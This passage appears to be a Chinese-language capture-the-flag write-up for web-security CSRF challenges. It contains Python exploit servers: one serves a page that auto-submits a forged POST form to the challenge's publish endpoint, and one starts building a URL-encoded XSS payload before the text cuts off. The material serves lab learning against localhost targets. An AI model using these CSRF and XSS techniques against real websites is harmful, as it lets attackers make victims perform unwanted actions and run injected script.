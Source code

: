 ## 正解

这个是

```python


hacker@web-security~csrf-2:~$ vim ./csrf
hacker@web-security~csrf-2:~$ vim ./csrf2.py 
hacker@web-security~csrf-2:~$ cat ./csrf2.py 
from http.server import SimpleHTTPRequestHandler, HTTPServer

class CSRFHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()

            # Inject an HTML form into the page and submit it using JavaScript
            self.wfile.write("""
                <html>
                  <body>
                    <h1>CSRF Attack in Progress</h1>
                    <form id="csrfForm" action="http://challenge.localhost/publish" method="POST">
                        <!-- You can add other required form fields here if needed -->
                    </form>
                    <script>
                        // Automatically submit the form without user interaction
                        document.getElementById("csrfForm").submit();
                    </script>
                  </body>
                </html>
            """.encode())

server = HTTPServer(("0.0.0.0", 1337), CSRFHandler)
print("CSRF attack server running at http://hacker.localhost:1337/")
server.serve_forever()
```

非得自己写个form然后再跳转吗？

# 25-CSRF-3

正确的exp：

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
import urllib.parse

class CSRFHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()

            # 恶意消息
            msg = '<script>alert("PWN: Success!")</script>'

            # 对消息进行 URL 编码
            encoded_msg = urllib.parse.quote(msg)

            # 构造恶意 URL
```